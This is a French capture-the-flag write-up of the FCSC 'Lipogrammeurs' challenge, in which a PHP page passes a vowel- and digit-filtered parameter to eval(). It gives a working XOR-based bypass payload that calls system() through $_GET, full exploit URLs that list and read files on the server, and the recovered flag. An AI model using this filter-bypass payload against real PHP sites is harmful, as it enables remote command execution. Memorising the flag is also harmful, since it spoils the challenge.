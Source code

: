 # <center><b>Lipogrammeurs</b></center>
</br>
<blockquote>Vous avez trouvé cette page qui vous semble étrange. Pouvez-vous nous convaincre qu'il y a effectivement un problème en retrouvant le flag présent sur le serveur ?
</blockquote>

Nous arrivons donc sur une page web ne contenant que ce code php :

```php
     <?php
    if (isset($_GET['code'])) {
        $code = substr($_GET['code'], 0, 250);
        if (preg_match('/a|e|i|o|u|y|[0-9]/i', $code)) {
            die('No way! Go away!');
        } else {
            try {
                eval($code);
            } catch (ParseError $e) {
                die('No way! Go away!');
            }
        }
    } else {
        show_source(__FILE__);
    }
```

Le code va vérifier le paramètre que l'on donne à 'code' pour soit retourner une erreur soit executer ce que l'on a mis en paramètre.
<br><br>
On devine alors que la faille se situe au niveau de la fonction eval(), mais on devine aussi que preg_match() va filtrer chaque caractère que l'on va entrer, ce qui va compliquer l'exploitation de la faille.
<br>
Notre payload ne doit donc pas être constitué de voyelles ou encore de nombres.
<br>
J'ai alors utilisé ce payload : 
    
    "";$_='$<>/'^'{{{{';${$_}[_](${$_}[__]);

Ce payload est equivalent à :
    
    $_= '$<>/' ^ '{{{{'; // $_ = '_GET'
    ${_GET}[_](${_GET})[__];
    $_GET[_]($_GET[__])

Après il suffit d’envoyer en GET nos commande comme ceci :  
    
    _=system&__=ls%20-a

Notre lien final devrai donc ressembler à ça :

    http://challenges2.france-cybersecurity-challenge.fr:5008/?code=%22%22;$_=%27$%3C%3E/%27^%27{{{{%27;${$_}[_](${$_}[__]);&_=system&__=ls%20-a

Nous obtenons donc comme réponse 

    . .. .flag.inside.J44kYHYL3asgsU7R9zHWZXbRWK7JjF7E.php index.php

Tiens, voilà un fichier intéressant, essayons de le lire.

    http://challenges2.france-cybersecurity-challenge.fr:5008/?code=%22%22;$_=%27$%3C%3E/%27^%27{{{{%27;${$_}[_](${$_}[__]);&_=system&__=cat%20.flag.inside.J44kYHYL3asgsU7R9zHWZXbRWK7JjF7E.php

On affiche le code source, et paf notre flag :

    FCSC{53d195522a15aa0ce67954dc1de7c5063174a721ee5aa924a4b9b15ba1ab6948}
